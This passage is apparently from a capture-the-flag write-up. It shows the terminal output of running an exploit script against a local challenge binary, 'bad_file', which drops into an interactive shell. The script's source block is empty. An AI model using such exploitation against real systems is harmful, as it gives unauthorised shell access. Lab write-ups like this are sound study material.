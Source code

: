 ```
```

When we run it:

```
$	python exploit.py 
[+] Starting local process './bad_file': pid 3242
Would you like a (1) temporary name or a (2) permanent name?
Hello, 15935728 (for now)
I created a void for you, and this can let you practice some sorcery
You're in danger, you'll need a new name.
[*] Switching to interactive mode

Now let's send some magic to the void!!
$ w
 17:38:08 up 18 min,  1 user,  load average: 0.10, 0.03, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               17:19   18:39   3.12s  0.15s /sbin/upstart --user
$ ls
bad_file  core    exploit.py  libc6.so  readme.md

```

Just like that we captured the flag!   
